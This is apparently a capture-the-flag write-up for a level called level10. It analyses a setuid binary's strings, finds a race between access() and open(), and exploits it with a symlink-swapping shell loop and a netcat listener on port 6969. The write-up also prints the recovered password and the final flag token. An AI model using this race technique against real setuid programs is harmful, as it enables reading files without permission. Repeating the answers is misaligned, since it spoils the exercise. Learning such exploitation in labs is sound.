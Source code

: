 # level10

1. Files found in `~/` :

    ```bash
    token  level10
    ```

2. Analysis of the `token` file and `level10` binary

    We have no rights on `token`.
    We will therefore inspect the binary :

    ```c
    open
    access
    strerror
    __libc_start_main
    write
    GLIBC_2.4
    GLIBC_2.0
    PTRh
    UWVS
    [^_]
    %s file host
    sends file to host if you have access to it
    Connecting to %s:6969 .. 
    Unable to connect to host %s
    .*( )*.
    Unable to write banner to host %s
    Connected!
    Sending file .. 
    Damn. Unable to open file
    Unable to read from file: %s
    wrote file!
    You don't have access to %s
    ```

    Several things interest us :
    - The script allows sending a file to which we have access to a remote host.

    ```bash
    %s file host
    sends file to host if you have access to it
    ```

    - We can also see that the executable uses `setuid` which means it will execute with the rights of `flag10`.
    - The vulnerability is therefore that `access()` uses the uid of the current user, so we must succeed in changing the symbolic link of `token` between `access()` and `open()`.

3. Exploitation

    We will receive files from another user listening on port 6969 (information present in the `strings` output) :

    ```bash
    nc -lv 6969
    ```

    Create a symbolic link to the token :

    ```bash
    ln -s /home/user/level10/token /tmp/link
    ```

    Create a script that will loop alternating the target of the symbolic link to a useless file and to `token` while launching at the same time in another loop waiting for what we want to happen :

    ```bash
    echo "dummy" > /tmp/dummy

    while true; do
        ln -sf /tmp/dummy /tmp/link 2>/dev/null
        ln -sf /home/user/level10/token /tmp/link 2>/dev/null
    done &

    while true; do
        ./level10 /tmp/link 127.0.0.1 >/dev/null 2>&1
    done
    ```

    ```bash
    #Link > Dummy
    #access() OK
    #Link > token
    #open > token
    ```

    ```bash
    nc -lv 6969
    Connection from 127.0.0.1 port 6969 [tcp/*] accepted
    .*( )*.
    woupa2yuojeeaaed06riuj63c
    ```

4. Final exploitation

    ```bash
    su flag10
    woupa2yuojeeaaed06riuj63c
    getflag
    ```

5. Token discovered

    The token is : `feulo4b72j7edeahuete3no7c`
